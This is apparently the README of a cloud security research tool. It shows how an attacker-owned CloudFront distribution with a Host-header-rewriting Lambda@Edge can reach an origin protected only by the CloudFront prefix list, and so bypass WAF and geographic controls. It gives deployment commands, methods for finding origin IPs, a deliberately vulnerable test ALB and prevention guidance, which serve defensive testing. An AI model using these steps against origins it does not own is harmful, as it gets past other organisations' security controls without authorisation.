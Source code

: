 # CloudFront Prefix List Bypass

A cloud security research tool demonstrating **CloudFront bypass**. It's designed to test AWS architectures that rely solely on **managed prefix list** for protection *without* properly implementing [origin cloaking](https://aws.amazon.com/developer/application-security-performance/articles/origin-cloaking).

## Overview

**Amazon CloudFront** - AWS Content Delivery Network (CDN) service - serves as entry point to web applications, where *security controls* such as **Web Application Firewalls** are typically implemented. Some organizations restrict access to **public origins** (*e.g.: Application Load Balancers*) using [Amazon Managed Prefix Lists](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/LocationsOfEdgeServers.html#managed-prefix-list), assuming that limiting access to CloudFront IPs via *Security Groups* provides a sufficient protection.

This tool demonstrates why this approach may be insufficient without additional security measures. **Since CloudFront IP addresses are shared across all AWS accounts**, attackers could use their own *Distribution* with a custom DNS record to directly access the origin. By leveraging *Lambda@Edge* to inject the expected **Host header**—matching the target website's virtual host and TLS certificate—they can **bypass CDN-level security controls** (e.g., AWS WAF or geographic restrictions).

![CloudFront Animation](cf-bypass.gif)

## Quick Start

The commands below will help you set up the AWS attacker account with:
- A **Lambda** that modifies the *host-header* in the **N. Virginia** region, along with the IAM role and permissions required for [edge functions](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/lambda-at-the-edge.html)
- A CloudFront Distribution to deploy **for each target origin** you want to access (using different *stack names*).

### Template Parameters

`attacker-cf-distro.yml` accepts the following parameters as input values:
- **HostHeader**: The *website DNS name* expected by the origin
- **OriginDomain**: A *custom DNS record* pointing to the origin
- **Protocol** (*Optional*): The *protocol* to use for origin connections
  - Default: [match-viewer](https://docs.aws.amazon.com/it_it/AWSCloudFormation/latest/UserGuide/aws-properties-cloudfront-distribution-customoriginconfig.html#cfn-cloudfront-distribution-customoriginconfig-originprotocolpolicy)
  - Allowed values:
    - http-only
    - https-only
    - match-viewer
- **AllowedCIDR** (*Optional*): A *CIDR range* allowed via AWS WAF to access the distribution.
    - Default: "" (all access allowed, no WAF is deployed)

### Deployment Steps

Install and configure **AWS CLI** on a Linux environment as prerequisite (launch the following commands with the proper *--profile* if needed) or manually upload the template using **AWS CloudFormation** Console.

1. Clone the repository

    ```bash
    git clone https://github.com/f-lucini/cloudfront-prefix-list-bypass.git
    cd cloudfront-prefix-list-bypass
    ```

2. Setup Lambda@Edge (first time only)
    ```bash
    aws cloudformation deploy \
        --template-file attacker-lambda-setup.yml \
        --stack-name sethost-lambda --region us-east-1
    ```

3. Deploy the attacker's distribution

    ```bash
    # Set the required variables
    header="example.domain" # The DNS name expected by the website
    target="record.custom" # The origin address (see next section for details)

    # In this example only your IP can access the distribution
    # (remove AllowedCIDR parameter to allow everyone to connect)
    aws cloudformation deploy \
        --template-file attacker-cf-distro.yml \
        --stack-name cf-bypass \
        --parameter-overrides \
            HostHeader=$header \
            OriginDomain=$target \
            AllowedCIDR=$(curl -s http://checkip.amazonaws.com/)/32 \
        --region us-east-1

    # Get the distribution domain name
    distribution=$(aws cloudformation describe-stacks \
        --stack-name cf-bypass \
        --region us-east-1 \
        --query 'Stacks[0].Outputs[0].OutputValue' \
        --output json | sed 's/\"//g')

    echo "Your distribution domain is: $distribution"
    ```

**Use the new distribution to access the origin** and bypass security settings on the original CDN:
- By default, the *Protocol* (HTTP or HTTPS) used to access the distribution is **the same as that used to connect to the origin** website. 
- Due to CloudFront’s certificate validation process for TLS origins—which relies on the Host header—the *OriginDomain* **does not need to match the domain name on the certificate**.
- This could be useful to target HTTPS since **discovering an origin's IP address could be easier than finding its DNS name** (i.e., EC2 load balancers contain random strings).

## Technical Details

### Find Origin Address

The techniques described in this section for uncovering the origin server address are based on methods detailed in [this article](https://infosecwriteups.com/finding-the-origin-ip-behind-cdns-37cd18d5275).

Several tools and techniques can be used:
- Tools like [CloakQuest3r](https://github.com/spyboy-productions/CloakQuest3r) or [SecurityTrails](https://securitytrails.com/) can:
  - Find misconfigured old records using **Subdomain scanning**
  - Retrieve **DNS historical values** from before CDN deployment
- Services like [Censys](https://search.censys.io/) and [CloudFlair](https://github.com/christophetd/CloudFlair) can be used to*:
  - **Scan the entire public internet** address space
  - Match IPs using **identical SSL certificates**
  - Identify origins by **excluding CloudFront IPs**
  
- Other techniques include:
  - [Shodan favicon map](https://faviconmap.shodan.io) for matching websites with **identical icons***
  - [WordPress pingback](https://www.invicti.com/blog/web-security/xml-rpc-protocol-ip-disclosure-attacks/) feature to log origin for **public EC2** instances

**assuming the origin was scanned before CloudFront prefix-list is applied*

### Using Origin IP

After discovering the origin IP address, CloudFront will require an **origin domain name**. Here are a few ways to get one:

1. Use DNS reverse lookup: `dig -x <IP>`
2. Use the standard [DNS string for EC2](https://www.reddit.com/r/aws/comments/6bple0/comment/dhokpps/) origins
3. Register a record on a custom domain (e.g., [no-ip](https://my.noip.com/dynamic-dns) offers one free subdomain)

>**Note:**
>When using an **HTTPS origin**, you might expect certificate validation errors since the certificate won't match the specified domain name. However, **CloudFront accepts the connection** because it validates using the [Host header](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/using-https-cloudfront-to-custom-origin.html#using-https-cloudfront-to-origin-certificate). While the Host header is *read-only* in CloudFront's **viewer request**, it can be modified in the [origin request](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/edge-function-restrictions-all.html#function-restrictions-read-only-headers)

### Prevention Guidelines
To protect against this bypass technique, implement origin cloaking effectively using:

- [VPC origins](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/private-content-vpc-origins.html) to prevent public access over the internet

- [Custom header validation](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/restrict-access-to-load-balancer.html) for public origins like ALBs

## Origin Example

This repository includes an **example of a vulnerable Application Load Balancer (ALB)** for testing purposes. The ALB is configured with these security controls:
- A listener that blocks requests unless the host header is *example.domain*
- Security group rules that only allow traffic from CloudFront's prefix list (for N. Virginia region)

```bash
# Deploy the vulnerable ALB
aws cloudformation deploy \
    --template-file vulnerable-origin-example.yml \
    --stack-name vulnerable-origin \
    --region us-east-1

# Get the ALB's DNS name
origin_dns=$(aws cloudformation describe-stacks \
    --stack-name vulnerable-origin \
    --region us-east-1 \
    --query 'Stacks[0].Outputs[0].OutputValue' \
    --output json | sed 's/\"//g')

# Simulate origin discovery through DNS resolution
origin_ip=$(echo $origin_dns | xargs -l dig +short | tail -1)

# Generate EC2 DNS name for us-east-1 region
target=$(echo ec2-$origin_ip | tr . - | xargs -I % echo %.compute-1.amazonaws.com)

# Set the host header to the required value
header="example.com"
```

Deploy the attacker distribution as described in the *Quick Start* section and **connect to it using HTTP**.

To test instead the *HTTPS behaviour*, you can use any public website's IP address, for example:
```bash
header="www.google.com"
ip=$(dig +short $header | tail -1)
target=$(dig -x $ip +short | tail -1 | sed 's/\.$//')
```

## Cleanup

1. Remove the attacker's CloudFront distribution using the chosen **stack-name**.

    ```bash
    aws cloudformation delete-stack --stack-name cf-bypass --region us-east-1
    ```

2. If you deployed the test ALB, remove it to avoid ongoing costs:

    ```bash
    aws cloudformation delete-stack --stack-name vulnerable-origin --region us-east-1
    ```

3. (*Optional*) Clean up the Lambda@Edge infrastructure if you no longer need it.

    **Note**: CloudFront needs several hours to [delete edge function replicas](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/lambda-edge-delete-replicas.html) of step 1. Wait before running this command, or it may fail silently (but you won't incur costs if the lambda is not executed).

    ```bash
    # Wait for function replicas deletion or stack will not be removed
    aws cloudformation delete-stack --stack-name sethost-lambda --region us-east-1
    ```
